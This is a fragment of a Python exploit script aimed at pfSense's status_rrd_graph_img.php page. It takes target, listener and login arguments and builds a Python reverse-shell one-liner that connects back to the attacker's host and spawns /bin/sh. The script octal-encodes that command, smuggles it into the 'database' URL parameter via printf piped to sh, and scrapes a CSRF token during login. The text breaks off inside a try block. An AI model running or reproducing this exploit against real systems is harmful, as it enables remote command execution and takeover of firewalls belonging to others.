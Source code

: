 ```python
parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
```